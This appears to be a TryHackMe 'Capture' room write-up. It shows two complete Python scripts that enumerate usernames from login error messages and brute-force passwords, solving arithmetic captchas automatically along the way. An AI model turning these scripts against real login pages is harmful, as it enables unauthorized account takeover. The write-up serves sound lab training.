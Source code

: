 # Capture(TryHackMe)

Link to TryHackMe Room [https://tryhackme.com/room/capture](https://tryhackme.com/room/capture)

<img src="https://user-images.githubusercontent.com/25124463/236878216-64d5ac34-8a10-4814-9621-64c2c4af9306.png" width="600">




In this CTF room from TryHackMe I will be attempting to bypass a login form.&#x20;



### Enumeration&#x20;

After starting the machine and navigating to the login page this is what we are presented with. 

<img src="https://user-images.githubusercontent.com/25124463/236878987-fe6d22dd-2c2a-4113-ac5f-cd7bc0543316.png" width="600">


When entering the username ``admin`` and password ``admin`` as a test I see that I get an output at the bottom of the page saying:

**Error: The user 'admin' does not exist**

This means that we can brute force the login to find the username and observe for when the response does not contain the above error message indicating that username exists. 
We could do this on Burp Suite using the included username wordlist but the site has captcha in place after too many unsucessful login attempts.

<details>
<summary>Captcha</summary>

![captcha](https://user-images.githubusercontent.com/25124463/236881474-84571341-c715-4e2f-a9ab-dea7cb25b17c.png)
</details>

Since we now have to solve each captcha we must create a script to do this. I decided to use python to make my script. 

The username hacking script must do the following:
* Read each line of the ``usernames.txt`` file 
* Send the request with the login url and username/password payload. The password at this point is not important so we can give it a dummy value. Main goal is to find a valid username. 
* When captcha is found in the response we must solve it and include it in the request payload. 
* Loop through usernames and halt the script when a response returns html code that doesn't include ``Error: The user 'admin' does not exist``. 

My solution might not be most elegant but it works to find the username lol
<details>
<summary>Code</summary>

```

import requests
import re

url = '' # replace with the URL of the login page

with open('usernames.txt', 'r') as uf:
    for username in uf:
        username = username.strip()
        
        payload = {
            "username" : username,
            "password" : "test_password"
        }

        response = requests.post(url, data=payload)

        if  "Invalid password for user"in response.text:
            print(f"Correct username: {username}")
            exit()
        else:
            # Solve CAPTCHA if present and send login request
            captcha_match = re.search(r'\d+\s*[-+/*]\s*\d+\s*=\s*\?',response.text)
            captcha_text = ''
            if captcha_match is not None:
                captcha_text = captcha_match.group(0).replace('=', '').strip()
                print("CAPTCHA text:", captcha_text)

                # Solve the CAPTCHA and include the solution in the payload
                match = re.search(r'(\d+)\s*([-+/*]?)\s*(\d+)', captcha_text)
                if match:
                    num1, operator, num2 = match.groups()
                    solution = eval(num1 + operator + num2)
                    print("Solution:", solution)
                    print(username)
                    payload['captcha'] = solution
                else:
                    print("Error: Failed to extract numbers and operator from CAPTCHA text")
                    continue
            
            # Send login request
            response = requests.post(url, data=payload)

            if "Invalid password for user" in response.text:
                print(f"Valid username: {username}")
                exit()



```
</details>

This will take about two minutes to finish. Correct username will be printed to the console. 

Next we have to take the correct username and create another script where we brute force to find the correct password.
In this script we must:
* Load the passwords from the password.txt file provided in the room. 
* Loop through all the passwords sending the username, password and captcha in the request payload. 
* if response returns the string "Too many bad login attempts" in the response text we know the password is unsuccessful so we can continue
* When the repsone text does not contain too many bad login attempts as a string we know that weve found the correct password 
* Print correct password and username to console and exit program. 

<details>
<summary>Code</summary>

```
import requests
import re

url = '' # replace with the URL of the login page

with open('passwords.txt', 'r') as pf:
        for password in pf:
            username = "" # The password you obtained from username script
            password = password.strip()
            
            payload = {
                "username" : username,
                "password" : password
            }


            response = requests.post(url, data=payload)
            
            # Send the GET request and extract the CAPTCHA string if present
            captcha_match = re.search(r'\d+\s*[-+/*]\s*\d+\s*=\s*\?',response.text)
            print(captcha_match)
            captcha_text = ''
            if captcha_match is not None:
                captcha_text = captcha_match.group(0).replace('=', '').strip()
                print("CAPTCHA text:", captcha_text)

                # Solve the CAPTCHA and include the solution in the payload
                # num1, operator, num2 = re.findall('\d+|\D+', captcha_text)
                match = re.search(r'(\d+)\s*([-+/*]?)\s*(\d+)', captcha_text)
                if match:
                    num1, operator, num2 = match.groups()
                    solution = eval(num1 + operator + num2)
                    print("Solution:", solution)
                    payload = {
                        'username': username,
                        'password': password,
                        'captcha': solution
                    }
                else:
                    print("Error: Failed to extract numbers and operator from CAPTCHA text")
                    payload = None
            else:
                print("No CAPTCHA found on the page")
                payload = {
                    'username': username,
                    'password': password
                }

            # Send the POST request with the payload if it is not None
            if payload is not None:
                response = requests.post(url, data=payload)
                if "Too many bad login attempts!" in response.text:
                    print(f"Attempted login with username as: {username} and password as: {password}")
                else:
                    print(f"The correct username is: {username} and password is: {password}")
                    exit()
            else:
                print("Empty payload, cannot send request")

```
</details>
At this point we can go to the browser using the username and password to obtain the flag to complete the room. Hope this helps someone. Happy hacking






![capture-completed](https://user-images.githubusercontent.com/25124463/236889555-c44067f1-4066-4135-8c5f-71bb841fa410.png)






